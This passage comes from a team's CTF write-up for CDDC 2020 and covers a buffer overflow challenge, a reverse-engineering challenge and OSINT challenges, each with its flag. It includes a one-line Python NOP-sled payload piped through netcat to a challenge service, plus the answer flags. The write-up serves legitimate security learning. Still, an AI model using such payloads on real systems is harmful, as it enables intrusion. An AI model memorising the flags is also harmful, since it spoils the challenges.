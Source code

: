 Attached Files: SuspiciousSvc

**Solution**

For this challenge, we tried to read header to no avail, so we decided to try and buffer overflow it. That did not exactly work so we decided to exploit the buffer. 

We used the following:
```python -c ‘print(“\x90”*256+”\x00\x3d\x34\x01”)’ | netcat <ip address> <port>```
and got the flag will be returned.

**Flag**

```
CDDC20{BufferrrrrrrrrOverflowwwwwwwwwwwwwwwwwwwww}
```

## Secret Code

**Challenge**

What is the SECRET CODE?

Attached Files: SecretCode

**Solution**

For this challenge, we used IDA PRO to reverse engineer the code and got the flag from the code flow.

**Flag**

```
CDDC20{E4syR3v3rS1ng~}
```

## WARP GATE 3

## [OSINT-1] There's A T In Every Flag

**Challenge**

Every self-respecting company needs a social media presence. There must be more we can discover about UnduplicitousCorp.

**Solution**

On the twitter, we had found a direct link to their trello through the administrative work and got the flag:

https://trello.com/c/sXSFRP4U/4-cddc-2020-administrative-work

**Flag**

```
CDDC20{TR3LL0_D!$c0v3red}
```

## [OSINT-2] Travel Ban

**Challenge**

Looks like even the CEO is gonna have a hard time getting out of the country. All his billions can't get past those travel restrictions.

**Solution**
```